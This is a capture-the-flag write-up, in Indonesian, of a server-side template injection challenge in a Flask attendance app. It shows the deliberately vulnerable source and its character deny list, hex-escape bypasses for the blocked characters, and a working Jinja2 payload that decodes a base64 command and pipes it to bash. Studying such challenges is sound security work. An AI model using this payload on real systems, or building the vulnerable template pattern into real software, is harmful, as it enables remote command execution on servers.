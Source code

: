 # SSTI

## Analisa source code

```py
from flask import Flask, render_template_string, request, redirect, url_for, session

app = Flask(__name__)
app.secret_key = 'Devit Ganteng :]'

@app.route('/')
def index():
    tasks = session.get('tasks', 'Hallo sayang absen yuks !! h3h3h3 muachh ')

    # Template HTML
    template_string = """
    <!DOCTYPE html>
    <html lang="en">
    <head>
        <meta charset="UTF-8">
        <meta name="viewport" content="width=device-width, initial-scale=1.0">
        <title>Simple Absen List</title>
    </head>
    <body>
        <h1>Nino Absen List</h1>
        <form action="{{ url_for('add') }}" method="post">
            <label for="task">Absen Kuy:</label>
            <input type="text" id="task" name="task" required>
            <button type="submit">Absen</button>
        </form>
        <ul>
            <li>
                """+tasks+"""
            </li>
        </ul>
    </body>
    </html>
    """

    return render_template_string(template_string, tasks=tasks)

@app.route('/add', methods=['POST'])
def add():
    task = request.form.get('task')
    #filtering
    not_allowed = ["app.py","app","app.","flag.txt","*", ">", "<", ">>", "|", "&", "$", ";","~","[","]","#","!","-"]
    for keyword in not_allowed:
        if keyword in task:
            session['tasks']="Kamu tidak boleh melakukan hal itu !! Sayang"
            return redirect(url_for('index'))
    #end filtering
    session['tasks'] = "Hallo 👋 "+task+" Terimakasih sudah absen"

    return redirect(url_for('index'))

if __name__ == '__main__':
    app.run(debug=False)
```

#### Vulnerability

```bash
return render_template_string(template_string, tasks=tasks)
```

penjelasan :</br></br>
Pada baris ini, template string dirender menggunakan fungsi render_template_string. SSTI terjadi karena template_string dapat berisi string yang dieksekusi oleh Jinja2.

#### Not allowed char

```bash
app.py , app, app., flag.txt, *, >, <. >>. |, &, $, ;, ~, [, ], #, !, -
```

#### Basic injection

```bash
{{100/10}}
```

### Bypass

```bash
   . = \x2E
   * = \x2A
   > = \x3E
   < = \x3C
   >> = \x3E\x3E
   | = \x7C
   & = \x26
   $ = \x24
   ; = \x3B
   ~ = \x7E
   [ = \x5B
   ] = \x5D
   # = \x23
   ! = \x21
   - = \x2D
```

### Payload

```bash
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('echo "Y2F0IGFwaS9uaW5vL2ZsYWcvZmxhZy50eHQ=" \x7C base64 \x2Dd \x7C bash').read() }}
```

### Automation

```bash
python3 main.py
```
